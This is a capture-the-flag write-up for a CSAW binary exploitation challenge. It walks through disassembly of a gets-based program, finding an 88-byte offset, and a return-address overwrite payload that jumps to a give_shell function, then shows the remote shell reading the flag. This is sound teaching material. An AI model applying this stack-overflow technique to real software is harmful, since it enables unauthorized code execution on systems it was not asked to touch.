


# Description #
AAAA
50

Why is everyone around me screaming about flow?

nc pwn.chal.csaw.io 10101

# Running the binary #
This binary received some user input and printed on screen the same input ...

```
./buff
What is your favorite thing ?

lots of bugs
I like, lots of bugs too!!!
```

# Analyzing the binary #
Checking the binary with radare2 allowed us to confirm that there was a function called give\_shell that
spawns a shell ...

```
[0x004005f6]> afl
0x00400470    3 26           sym._init
0x004004a0    1 6            sym.imp.puts
0x004004b0    1 6            sym.imp.system
0x004004c0    1 6            sym.imp.printf
0x004004d0    1 6            sym.imp.__libc_start_main
0x004004e0    1 6            sym.imp.gets
0x004004f0    1 6            sub.__gmon_start_4f0
0x00400500    1 41           entry0
0x00400530    4 50   -> 41   sym.deregister_tm_clones
0x00400570    3 53           sym.register_tm_clones
0x004005b0    3 28           sym.__do_global_dtors_aux
0x004005d0    4 38   -> 35   entry1.init
0x004005f6    1 17           sym.give_shell
0x00400607    1 71           sym.main
0x00400650    4 101          sym.__libc_csu_init
0x004006c0    1 2            sym.__libc_csu_fini
0x004006c4    1 9            sym._fini
```

```
[0x004005f6]> pdf
(fcn) sym.give_shell 17
sym.give_shell ();
0x004005f6      55             push rbp
0x004005f7      4889e5         mov rbp, rsp
0x004005fa      bfd8064000     mov edi, str.bin_sh ; 0x4006d8 ; "/bin/sh" ; const char *string
0x004005ff      e8acfeffff     call sym.imp.system ; int system(const char *string)
0x00400604      90             nop
0x00400605      5d             pop rbp
0x00400606      c3             ret
```

But if we check closely the main function, there is no direct path to reach the function give\_me shell,
after getting our input (**gets**) is printed with **printf** at 0x00400642 the binary ends its execution.

```asm
0x00400607      55             push rbp
0x00400608      4889e5         mov rbp, rsp
0x0040060b      4883ec60       sub rsp, 0x60                        
0x0040060f      897dac         mov dword [local_54h], edi           
0x00400612      488975a0       mov qword [local_60h], rsi           
0x00400616      bfe0064000     mov edi, str.What_is_your_favorite_thing 
0x0040061b      e880feffff     call sym.imp.puts                    
0x00400620      488d45b0       lea rax, [s]
0x00400624      4889c7         mov rdi, rax                         
0x00400627      b800000000     mov eax, 0
0x0040062c      e8affeffff     call sym.imp.gets                    
0x00400631      488d45b0       lea rax, [s]
0x00400635      4889c6         mov rsi, rax
0x00400638      bf00074000     mov edi, str.I_like___s_too          
0x0040063d      b800000000     mov eax, 0
0x00400642      e879feffff     call sym.imp.printf                  
0x00400647      b800000000     mov eax, 0
0x0040064c      c9             leave
0x0040064d      c3             ret
```

It seems that in this challenge we have to overwrite the ret value stored in the stack, but lets
debug the binary to test this.

# Debugging the binary #
We started by sending a buffer of 128 bytes as our input, we also set a breakpoint at address
0x00400631 to check if we were able to overwrite a ret value in the stack ...

```
sendline(cyclic(128,n=8))
```

As we can see in the image below, we were able to overwrite a ret value in the stack
with the value 0x616161616161616c ...



We found that the offset required to overwrite the first saved ret value in the stack was 88 bytes ...

```
>>> cyclic_find(0x616161616161616c, n=8)
88
```

We created a buffer with 88 bytes and at the end we added the address for the give\_shell
function (0x004005f6), since PIE and Canary protections were not enabled we could hardcode this value ...

```
gef➤  checksec
[+] checksec for '/home/foobar/ctf/csawrt-18/pwning/AAAA/buff'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

Our buffer ended up like this ...

```python
buf = "\x41" * 88 + p64(0x004005f6)
sendline(buf)
```

After sending our buffer, we verified that we were able to overwrite the return address with the
address of the give\_shell function (0x004005f6)...

```
gef➤  i frame
Stack level 0, frame at 0x7ffd23460510:
 rip = 0x400631 in main; saved rip = 0x4005f6
 Arglist at 0x7ffd23460500, args:
 Locals at 0x7ffd23460500, Previous frame's sp is 0x7ffd23460510
 Saved registers:
  rbp at 0x7ffd23460500, rip at 0x7ffd23460508
```

After continuing the execution flow, we could verify that after taking the ret, we continued the execution
flow in the give\_shell function ...



Once we were able to divert the execution flow, we were ready to get our flag ...

# Getting the flag #

```
python exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 10101: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
    _        _        _        _        _
   / \      / \      / \      / \      / \
  / _ \    / _ \    / _ \    / _ \    / _ \
 / ___ \  / ___ \  / ___ \  / ___ \  / ___ \
/_/   \_\/_/   \_\/_/   \_\/_/   \_\/_/   \_\
*************************************************
What is your favorite thing ?

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAö^@^@^@^@^@
I like, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAöoo!!!  ls
ls
art.txt  buff  flag.txt  run.sh
$ cat flag.txt
cat flag.txt
flag{0000oooo[EDITED]}
```
